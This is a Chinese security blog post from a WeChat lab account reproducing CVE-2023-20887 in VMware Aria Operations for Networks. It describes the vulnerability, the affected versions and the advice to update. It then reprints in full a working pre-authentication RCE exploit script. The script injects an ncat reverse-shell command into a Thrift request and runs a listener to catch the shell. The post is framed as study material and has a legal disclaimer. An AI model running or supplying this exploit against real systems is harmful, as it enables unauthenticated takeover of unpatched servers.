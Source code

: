 #  CVE-2023-20887漏洞复现

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 67个

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194503.png)  

**一. 漏洞介绍**

CVE-2023-20887 是 VMware Aria Operations for Networks 中的命令注入漏洞，可用于实现远程代码执行
(RCE)。正如 Summoning Team
的博客文章中所述，此漏洞的存在是由于两个问题的连锁反应。第一个问题是命令注入缺陷，但要到达易受攻击的代码，必须向由于 nginx
规则集而应被拒绝的端点发出请求。但是，该博客指出可以通过特制请求绕过该规则。通过在精心设计的请求中将这两个问题链接在一起，它将允许未经身份验证的攻击者实现
RCE。

CVE-2023-20888 是 VMware Aria Operations for Networks
中的一个反序列化漏洞。具有有效“成员”角色凭据的经过身份验证的攻击者可以使用精心设计的请求来执行反序列化攻击，从而导致 RCE。

CVE-2023-20889 是 VMware Aria Operations for Networks
中的一个信息泄露漏洞。具有网络访问权限的经过身份验证的攻击者可以执行命令注入攻击，这将导致数据泄露。

 **二. 影响范围**

 Aria Operations for Networks versions 6.2 / 6.3 / 6.4 / 6.5.1 / 6.6 / 6.7 /
6.8 / 6.9 / 6.10。

 **五. 漏洞修复**

            由于没有解决方法，VMware 建议更新到固定版本。

 **六. 漏洞检测POC**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     """VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCEVersion: 6.8.0.1666364233Exploit By: Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)A root cause analysis of the vulnerability can be found on my blog:https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-20887/"""import warningswarnings.filterwarnings("ignore", category=DeprecationWarning)import requestsfrom threading import Threadimport argparsefrom telnetlib import Telnetimport socketrequests.packages.urllib3.disable_warnings()  
      
      
    argparser = argparse.ArgumentParser()argparser.add_argument("--url", help="VRNI URL", required=True)argparser.add_argument("--attacker", help="Attacker listening IP:PORT (example: 192.168.1.10:1337)", required=True)  
    args = argparser.parse_args()  
      
      
      
    def handler():    print("(*) Starting handler")    t = Telnet()    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    s.bind((args.attacker.split(":")[0],int(args.attacker.split(":")[1])))    s.listen(1)    conn, addr= s.accept()    print(f"(+) Received connection from {addr[0]}")    t.sock = conn    print("(+) pop thy shell! (it's ready)")    t.interact()  
    def start_handler():    t = Thread(target=handler)    t.daemon = True    t.start()  
      
    def exploit():    url = args.url + "/saas./resttosaasservlet"    revshell = f'ncat {args.attacker.split(":")[0]} {args.attacker.split(":")[1]} -e /bin/sh'    payload = """[1,"createSupportBundle",1,0,{"1":{"str":"1111"},"2":{"str":"`"""+revshell+"""`"},"3":{"str":"value3"},"4":{"lst":["str",2,"AAAA","BBBB"]}}]"""    result = requests.post(url, headers={"Content-Type":"application/x-thrift"}, verify=False, data=payload)  
    print("VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCE || Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)")start_handler()exploit()  
    try:    while True:        passexcept KeyboardInterrupt:    print("(*) Exiting...")    exit(0)

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230617194505.png)

 **七.参考链接**  

  *   *   *   *   * 

    
    
     https://kb.vmware.com/s/article/92684https://nvd.nist.gov/vuln/detail/CVE-2023-20887https://securityonline.info/poc-released-for-vmware-aria-operations-for-networks-rce-cve-2023-20887-bug/https://www.helpnetsecurity.com/2023/06/15/cve-2023-20887-poc-exploit/https://github.com/sinsinology/CVE-2023-20887

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。文库内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

